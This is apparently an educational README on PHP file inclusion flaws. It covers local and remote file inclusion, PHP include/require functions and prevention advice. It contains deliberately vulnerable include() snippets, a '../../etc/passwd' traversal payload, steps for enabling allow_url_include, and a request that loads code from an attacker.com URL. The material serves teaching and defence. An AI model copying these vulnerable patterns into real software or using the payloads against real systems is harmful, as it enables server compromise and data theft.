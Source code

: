
# File-Inclusion-Vulnerability

## File Inclusion Vulnerability

A **file inclusion vulnerability** is a security flaw in web applications that allows attackers to include or execute files on the server, often leading to unauthorized access or remote code execution.

---

## How File Inclusion Works

This vulnerability typically arises when an application incorporates a file path via user input without proper validation. Attackers exploit this by manipulating the input to redirect the application to include unintended files, either from the local server or remotely.

---

## Types of File Inclusion

- **Local File Inclusion (LFI):** The attacker includes files already present on the server. This can expose sensitive data, configurations, or even lead to code execution if an attacker can get their own file onto the server.
- **Remote File Inclusion (RFI):** The attacker includes files located on an external server (typically controlled by the attacker), allowing direct execution of malicious code on the victim server.

---

## Exploitation Examples

    **LFI Example:**
    $file = $_GET['file'];
    include('directory/' . $file);

An attacker could use a URL like `?file=../../etc/passwd` to try including sensitive local files.

    **RFI Example:**
    $test = $_REQUEST["testfile"];
    include($test.".php");

Here, an attacker could specify a remote URL to fetch and execute their malicious script.

---
## Impacts

- **Disclosure of sensitive data** (config files, passwords)
- **Remote code execution** on the server hosting the application
- **Website defacement, privilege escalation, or further system compromise**

---

## Prevention

- Never trust user-supplied input for file paths.
- Rigorously validate and sanitize all input.
- Use secure coding practices, such as whitelisting allowed files and not exposing file path parameters directly.


## Including and Requiring Files in PHP

PHP lets developers organize code by breaking it into reusable sections such as headers, footers, configuration files, functions, or layout sections.

Including and requiring files in PHP enables code reuse and better organization for elements like **functions, configuration, layout sections, reusable HTML/PHP code, CSS, and JavaScript**.

---

## Key PHP Include and Require Functions

- **include('file.php')**: Inserts and executes code from a specified file. If the file is missing, a warning is shown and the script continues.
- **include_once('file.php')**: Same as include, but ensures the file is included only once (even if called multiple times).
- **require('file.php')**: Similar to include, but if the file is missing, a fatal error occurs and the script halts.
- **require_once('file.php')**: Like require but includes the file only once, avoiding redeclaration errors or code execution repetition.

---

## Practical Uses

- **Functions**: Place reusable functions in separate files (e.g., `include_function.php`) and include them in multiple scripts to avoid redundancy.
- **Configuration**: Store settings like database connections in a config file and include it where needed.
- **Layout Sections**: Standard parts like headers, footers, or navigation menus can be stored in dedicated files (`include_header.php`, `include_footer.php`) and included on all pages for consistency.
- **Reusable HTML/PHP Code**: Common UI blocks, such as forms, login panels, or notices, are better managed with includes.
- **CSS and JavaScript**: Typically included via HTML `<link>` and `<script>` tags, but dynamic content or inline styles/scripts can be modularized using PHP includes.

---

## Example

    require_once("include_header.php");
   
    require_once("include_function.php");


The above ensures both the header and user-defined functions are included only once, avoiding errors in larger applications.

## Exploitation Examples

- **LFI Example:**
    ```
    $file = $_GET['file'];
    include('directory/' . $file);
    ```
    An attacker could use a URL like `?file=../../etc/passwd` to try including sensitive local files.

- **RFI Example:**
    ```
    $test = $_REQUEST["testfile"];
    include($test.".php");
    ```
    Here, an attacker could specify a remote URL to fetch and execute their malicious script.

---

# Remote-File-Inclusion(RFI)-in-PHP

## Remote File Inclusion (RFI) in PHP

Remote File Inclusion (RFI) is a critical vulnerability that allows an attacker to include and execute code from a remote server by exploiting PHP scripts that include files based on user input.

---

## Enabling RFI (for testing purposes only - not recommended in production)

1. Open the PHP configuration file (for example, PHP 7.3 on Apache):

    ```
    vim /etc/php/7.3/apache2/php.ini
    ```

2. Find and set the following directive:

    ```
    allow_url_include = On
    ```

3. Restart the Apache server to apply changes:

    ```
    systemctl restart apache2.service
    ```

---

## What does `allow_url_include` do?

| Configuration      | Description                                | Default Value | Risk Level                                    |
|--------------------|--------------------------------------------|--------------|-----------------------------------------------|
| allow_url_include  | Allows PHP to include remote files via URLs| Off          | High if set to On (can enable RFI attacks)    |

---

## Example of vulnerable PHP code

<?php $page = $_GET['page']; include($page); // Vulnerable to Remote File Inclusion if allow_url_include=On ?>
text

If `allow_url_include` is set to **On**, and an attacker requests:

http://example.com/index.php?page=http://attacker.com/malicious.php

text

The malicious PHP code hosted on the attacker's server will be executed on the victim's server.

---

## Security Recommendations

- Keep `allow_url_include` set to **Off** in production.
- Avoid including files based on unsanitized user input.
- Use whitelisting or strict validation for any file includes.
- Update PHP to versions where this feature is disabled by default.
